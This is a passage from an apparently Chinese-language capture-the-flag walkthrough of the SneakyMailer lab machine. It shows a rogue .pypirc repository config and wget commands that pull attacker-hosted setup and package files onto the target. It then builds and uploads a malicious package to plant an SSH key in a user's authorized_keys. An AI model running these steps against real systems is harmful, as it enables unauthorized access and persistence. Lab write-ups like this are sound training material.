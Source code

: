 f.seek(0)和f.truncate()两个函数，帮助文件定位到开头，并清空文件内容

.pypirc
```
[distutils]
index-servers =
  pypi
  evilx
[pypi]
username:x
password:x
[evilx]
repository: http://127.0.0.1:5000
username: pypi
password: soufianeelhaoui
```
注意端口是打的5000，没有再试试是否能对8080正常使用
上传到靶机，
注意目录结构
```
cd /tmp/evilx
touch README.md
wget http://10.10.14.35:8080/setup.py
wget http://10.10.14.35:8080/setup.cfg
```
在`/tmp/evilx`再建立一个evilx文件夹，存入`__init__.py`
```
mkdir evilx
cd /tmp/evilx/evilx
wget http://10.10.14.35:8080/__init__.py
```
退回`/tmp/evilx`，传输`.pypirc`
```
cd /tmp/evilx
wget http://10.10.14.35:8080/.pypirc
```
![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031052941593_24628.png)

打包
```
python3 setup.py sdist
```
修改环境变量，并上传
```
export HOME=/tmp/evilx
python3 setup.py sdist upload -r evilx
```
![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031054635400_31784.png)

这时只要查看key，看内容是否被推入即可

`cat /home/low/.ssh/authorized_keys`

![]({{ site.url }}/assets/SneakyMailer_197.assets/20201031055258886_16225.png)

